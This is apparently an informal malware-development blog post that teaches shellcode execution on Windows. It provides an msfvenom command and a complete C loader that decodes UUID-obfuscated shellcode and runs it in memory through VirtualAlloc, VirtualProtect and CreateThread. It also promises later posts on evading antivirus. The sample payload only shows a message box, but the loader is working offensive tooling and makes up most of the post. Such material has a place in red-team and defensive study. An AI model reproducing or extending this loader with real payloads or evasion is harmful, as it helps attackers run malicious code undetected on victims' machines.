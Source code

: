 > This is an short and sweet post about how shellcode is executed. Def not the recommended method as every AV in their mother will detect it. But this is the base and we will keep building upon this
# Requisites 
Today is going to be so easy
1. Windows API
	- VirtualAlloc
	- VirtualProtect
	- CreateThread
2. Payload Obfuscation [Previous Blog post](https://debug-diary.vercel.app/post/Payload_Obfuscation)

# Payload Execution
Today is the day we execute the payload we were so eager to save and hide for some time.

This method used by the most advance malware like **Empire** and **Cobalt strike**. still it can be improved by using more advance stuff like 
- `QueueUserAPC`, `NtCreateThreadEx`, `SetThreadContext` - adv threading.
- `NtAllocateVirtualMemory`, `NtProtectVirtualMemory` - skipping winAPI
which we will see in the future modules.

1. Generating **shellcode**
	- use the following command to Generate `MessageBox` shellcode that gets executed
	- `msfvenom -p windows/messagebox TEXT="Hello" TITLE="Test" -f c -a x86`
2. De obfuscating **UUID to shellcode**
	- de obfuscating it manually right now but will build an DLL to do that in the future. [Previous Blog post](https://debug-diary.vercel.app/post/Payload_Obfuscation) to understand the code
3. **Storing** the de obfuscated shellcode in Memory using `VirtualAlloc` 
	- `VirtualAlloc` - it's a API function which can be used to allocate *page memory*, yes not stack or heap but it allocates memory in terms of pages.
	- `void *temp = VirtualAlloc(0, bytes, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);`
4. **Changing Permission** of the reserved memory
	- Now if we see that when we allocated the memory we gave it the permission to *read and write operations* but in order to execute the code we need to set it to *executable*.
	- `VirtualProtect((PVOID)shellcode, bytes, PAGE_EXECUTE_READWRITE, &dwOldProtection);`
5. **Executing** via threads
	- Now we will execute the shellcode in thread because, msfvenom generates shellcode in a way that at the end it exits in which ever environment it is. So if we don't use threads then it will exit from the process itself.
6. **Executing** via pointers ( Optional )
	- Now if you still want to execute it directly then you can convert the memory form *void pointer to function pointer*
	- `((void (*)()) shellcode)()` - It dereferences automatically
	- `(void (*)())` - An function pointer with no name
	- `(... shellcode)()` - type conversion and executing it.

*Just like a big boy i am not using any `if` statements to check if the function fails. But you should def use those.*

```c
#include <stdio.h>
#include <windows.h>

int main(){
	
	char UUID[26][37] = {
        "FC4881E4-F0FF-41d4-a716-FFFFE8CC0000",
        "00415141-5052-41d4-a716-4831D265488B",
        "52605156-488B-41d4-a716-5218488B5220",
        "488B7250-480F-41d4-a716-B74A4A4D31C9",
        "4831C0AC-3C61-41d4-a716-7C022C2041C1",
        "C90D4101-C1E2-41d4-a716-ED52488B5220",
        "8B423C41-5148-41d4-a716-01D066817818",
        "0B020F85-7200-41d4-a716-00008B808800",
        "00004885-C074-41d4-a716-674801D0508B",
        "4818448B-4020-41d4-a716-4901D0E35648",
        "FFC9418B-3488-41d4-a716-4D31C94801D6",
        "4831C0AC-41C1-41d4-a716-C90D4101C138",
        "E075F14C-034C-41d4-a716-24084539D175",
        "D858448B-4024-41d4-a716-4901D066418B",
        "0C48448B-401C-41d4-a716-4901D0418B04",
        "88415848-01D0-41d4-a716-41585E595A41",
        "58415941-5A48-41d4-a716-83EC204152FF",
        "E0584159-5A48-41d4-a716-8B12E94BFFFF",
        "FF5DE80B-0000-41d4-a716-007573657233",
        "322E646C-6C00-41d4-a716-5941BA4C7726",
        "07FFD549-C7C1-41d4-a716-00000000E80E",
        "0000005B-2B5D-41d4-a716-2052756E6E69",
        "6E672E2E-005A-41d4-a716-E80900000053",
        "75636B63-6573-41d4-a716-730041584831",
        "C941BA45-8356-41d4-a716-07FFD54831C9",
        "41BAF0B5-A256-41d4-a716-FFD500909090"
};

	int rows = sizeof(UUID) / sizeof(UUID[0]);
	unsigned int bytes = rows * 12;
	printf("Rows: %d, Bytes: %u\n", rows, bytes);
	void *temp = VirtualAlloc(0, bytes, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	
	printf("[+] Shellcode will be at - 0x%p", temp);
	getchar();
	unsigned char* shellcode = (unsigned char*)temp;
	unsigned char* writer = shellcode;
	
	for (int i=0; i < rows; i++){
		unsigned short segment[12];
		int result = sscanf(UUID[i], "%02X%02X%02X%02X-%02X%02X-41d4-a716-%02X%02X%02X%02X%02X%02X", &segment[0], &segment[1], &segment[2], &segment[3], &segment[4], &segment[5], &segment[6], &segment[7], &segment[8], &segment[9], &segment[10], &segment[11]);
				
        for (int j=0; j < 12; j++){
            *writer++ = (unsigned char)segment[j];
        }
	}

	printf("[+] Running thread...\n");
	DWORD dwOldProtection = 0;
	VirtualProtect((PVOID)shellcode, bytes, PAGE_EXECUTE_READWRITE, &dwOldProtection);
	HANDLE hthread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)shellcode, NULL, 0, NULL);
	WaitForSingleObject(hthread, INFINITE);
    
    printf("[+] Thread finished.\n");
	VirtualFree(shellcode, bytes, MEM_RELEASE);
	
	return 0;
}
```
![your internet sucks image not loaded](/images/ExecutingPayload-1.PNG)

## vs Antivirus
Not even going to test it as it's the most common method  to execute payload and *will get detected pretty easily*. But non the less we will see in the future how to make this method undetectable.

This was an short post to understand how an shellcode is executed. But stay tuned an we only have few things to cover and we will be diving into some more windows internal and advance things.